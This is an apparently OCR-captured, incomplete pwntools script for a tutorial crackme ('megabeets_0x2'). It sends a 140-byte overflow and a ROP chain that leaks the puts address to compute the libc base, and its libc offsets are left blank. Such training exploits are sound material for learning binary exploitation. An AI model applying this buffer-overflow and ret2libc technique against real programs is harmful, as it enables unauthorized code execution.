           ```python
from pwn import *

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

# Offsets
offset_puts = 
offset_system = 
offset_str_bin_sh = 
offset_exit = 

# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    
    p.clean()
    
    # Calculate libc base

    libc_base = leak - offset_puts
    log.info("libc base: 0x%x" % libc_base)
